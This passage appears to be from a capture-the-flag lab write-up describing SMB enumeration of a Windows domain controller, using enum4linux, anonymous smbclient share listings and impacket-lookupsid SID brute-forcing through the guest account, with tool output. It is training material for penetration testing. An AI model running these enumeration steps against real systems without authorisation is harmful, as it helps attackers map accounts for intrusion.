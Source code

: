 ## Port 445 Analysis

I began the analysis using the tool `enum4linux`, but didn't find anything useful beside the domain name:
```bash
[...]
Domain Name: VULNNET-RST                                                           
Domain Sid: S-1-5-21-1589833671-435344116-4136949213
[...]
```

Since we were dealing with a Windows machine, I enumerated potential shares and found two that I decided to analyzed further:
```bash
$ smbclient -N -L \\10.10.97.172   

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        VulnNet-Business-Anonymous Disk      VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous Disk      VulnNet Enterprise Sharing

$ smbclient -N \\\\10.10.97.172\\VulnNet-Business-Anonymous 
  Try "help" to get a list of possible commands.
  smb: \> dir
    .                                   D        0  Fri Mar 12 21:46:40 2021
    ..                                  D        0  Fri Mar 12 21:46:40 2021
    Business-Manager.txt                A      758  Thu Mar 11 20:24:34 2021
    Business-Sections.txt               A      654  Thu Mar 11 20:24:34 2021
    Business-Tracking.txt               A      471  Thu Mar 11 20:24:34 2021
  
$ smbclient -N \\\\10.10.97.172\\VulnNet-Enterprise-Anonymous
  Try "help" to get a list of possible commands.
  smb: \> dir
    .                                   D        0  Fri Mar 12 21:46:40 2021
    ..                                  D        0  Fri Mar 12 21:46:40 2021
    Enterprise-Operations.txt           A      467  Thu Mar 11 20:24:34 2021
    Enterprise-Safety.txt               A      503  Thu Mar 11 20:24:34 2021
    Enterprise-Sync.txt                 A      496  Thu Mar 11 20:24:34 2021
```

I downloaded the files which contained work guidelines and responsibilities within the company. Since this could be a domain controller, I collected all the names that could potentially be domain usernames. Next, the SMB share can provided more insights into potential usernames using `impacket-lookupsid`. Since I was able to interact with the shares without credentials, I tried the guest account:
```bash
$ impacket-lookupsid vulnnet-rst.local/guest@10.10.208.124
  Impacket v0.12.0.dev1 - Copyright 2023 Fortra

  Password:
  [*] Brute forcing SIDs at 10.10.208.124
  [*] StringBinding ncacn_np:10.10.208.124[\pipe\lsarpc]
  [*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
  498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
  500: VULNNET-RST\Administrator (SidTypeUser)
  501: VULNNET-RST\Guest (SidTypeUser)
  502: VULNNET-RST\krbtgt (SidTypeUser)
  512: VULNNET-RST\Domain Admins (SidTypeGroup)
  513: VULNNET-RST\Domain Users (SidTypeGroup)
  514: VULNNET-RST\Domain Guests (SidTypeGroup)
  515: VULNNET-RST\Domain Computers (SidTypeGroup)
```